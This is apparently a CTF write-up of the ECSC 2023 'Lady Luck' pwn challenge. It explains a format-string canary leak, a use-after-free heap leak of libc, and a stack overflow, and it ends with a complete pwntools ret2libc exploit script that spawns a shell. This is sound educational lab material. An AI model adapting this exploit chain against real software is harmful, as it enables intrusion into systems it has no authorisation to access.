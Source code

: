 ```yaml
---
id: 17
title: "ECSC 2023: Lady Luck"
subtitle: "ECSC 2023 Day 3: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, c++, pwn, ctf"
---
```


## Foreword

This challenge was a lot more interesting than those on Day 1. It featured a use-after-free to leak libc address, though the challenge overall is still a ret2libc challenge.

# Lady Luck

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d3/ladyluck/lady_luck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

It has everything enabled. This means we potentially need to watch out for the canary as well as the PIE offset.

We open the binary in IDA and see that it's a menu based application.
```c
buf = 0;
v5 = 0;
fwrite(&unk_2508, 1uLL, 0x79uLL, stdout);
option1 = read_num();
if ( !option1 || option1 > 3 )
{
  puts("\nAre you trying to cheat Lady Luck?!\n");
  exit(1312);
}
fwrite(&unk_25B0, 1uLL, 0x66uLL, stdout);
read(0, &buf, 6uLL);
fflush(stdin);
if ( !strcmp((const char *)&buf, "fr33c01n5f0r3v3ry0n3") )
{
  coins = 0x174876E7FFLL;
}
else
{
  fprintf(stdout, "\n%s[-] Sorry, this is not correct: ", "\x1B[1;31m");
  fprintf(stdout, (const char *)&buf);
  puts("\x1B[1;34m");
}
menu();
```

There is a format string exploit with an input of up to length 6 in `main()` before it goes into menu. We can thus use it to leak the canary `%8$p`.

Decompiling `menu()` and all its subfunctions, we find out that `buy_pots()` restricts the potions you can buy to a maximum size of `0x82`.
```c
fwrite("\nml: ", 1uLL, 5uLL, stdout);
psize = read_num();
if ( psize <= 0x82 && psize )
{
  if ( check_coins(20 * psize) )
    coins -= 20 * psize;
  fwrite("\nSlot to place it: ", 1uLL, 0x13uLL, stdout);
  pindex = read_num();
  if ( pindex > 9 )
    goto LABEL_13;
  red_pots[pindex] = (char *)malloc(psize);
  strcpy(red_pots[pindex], "Lucky Red    potion x1");
}
```

`sell_pots()` calls `free()` but does not reset the pointer, which allows for a use-after-free or related bugs.
```c
free(red_pots[index]);
fprintf(stdout, "%s\n[+] Sold! You got back 20 coins!%s\n\n", "\x1B[1;32m", "\x1B[1;34m");
coins += 20LL;
```

`show_inventory()` will list out everything in the inventory, *including the freed elements in the array* due to the pointer not being set to null after `free()` (use-after-free!). This can be used to leak whatever we can get by calling `sell_pots()`.
```c
for ( i = 0LL; i <= 9; ++i )
{
  if ( red_pots[i] )
    fprintf(stdout, "Slot [%d]: %s\n", i, red_pots[i]);
  else
    fprintf(stdout, "Slot [%d]: Empty\n", i);
}
```

`discount_code()` defines an input buffer of length `0x80` but allows the user to input up to `0xB7` bytes with `fgets()`, which allows for buffer overflow.
```c
memset(y, 0, 128);
fwrite(
"\nI will tell you the lucky phrase for your next purchase, but you need to give me a good reason why: \n\n",
1uLL,
0x67uLL,
stdout);
fgets(y, 0xB7, stdin);
fwrite("Your code is: [fr33c01n5f0r3v3ry0n3]\n", 1uLL, 0x25uLL, stdout);
```

We can leak the libc address by buying 8 potions of length `0x82` then selling all of them. This is due to the way the tcache bins work (7 same-sized bins), and because of the use-after-free caused by the bad `free()` usage, we can leak the pointer to the 8th freed bin which would point to the main arena.

We still need to keep the top chunk in place to prevent coalescing, so theoretically we need to buy index 0-8 and sell index 0-7, then show index 7. We see a `0x7f` byte in gdb which tells we leaked some address in libc (since it points to the main arena). We set a breakpoint at `show_inventory()` and see our leaked address. Then we can simply `xinfo` to find the static offset to libc base, which is `0x219ce0`.

Chaining everything together, we have:
1. Leak canary with fsb
2. Leak libc with `buy_pots()`, `sell_pots()` and `show_inventory()`
3. Buffer overflow and ret2libc

We can automate the process with pwntools:
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./lady_luck", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./lady_luck", "localhost", gdbscript="b show_inventory")

def sell(n):
	p.sendlineafter(">>", "2")
	p.sendlineafter(":", str(n))

def buy(n):
	p.sendlineafter(">>", "1")
	p.sendlineafter(":", str(0x82))
	p.sendlineafter(":", str(n))

def inventory():
	p.sendlineafter(">>", "3")

# Leak canary
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendlineafter(": ", "%8$p")
p.recvuntil(": ")
canary = int(p.recvline(), 16)
info(f"{hex(canary) =}")

p.sendlineafter(">>", "1")

# bin collision magic
for i in range(10):
	buy(i)

p.sendlineafter(">>", "3")

for i in range(9):
	sell(i)

# leak libc address, calcullate libc base
inventory()

p.recvuntil("[7]: ")
libc.address = u64(p.recvline().rstrip(b'\n').ljust(8,b'\x00')) - 0x219ce0
success(f"{hex(libc.address) =}")

# perform bof and ret2libc
p.sendlineafter(":", "4")

rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x88: p64(canary), 0x90: p64(0) + rop.chain()})

p.sendafter(":", payload)

p.interactive()
```

`cat flag.txt` for the flag.

## Afterword

The most fun challenge out of all the rest because of the different layers that went into this, from leaking canary to getting a libc address, before finally sending the final payload to pop shell. Honestly I think it would've been easier if I had stronger knowledge on tcache and bins, but nonetheless it was kinda fun.

Throughout the competition, huge thanks to all my teammates for working tirelessly and especially [`enigmatrix`](https://enigmatrix.me) for his guidance with solving the pwn challenges.

Thanks for reading!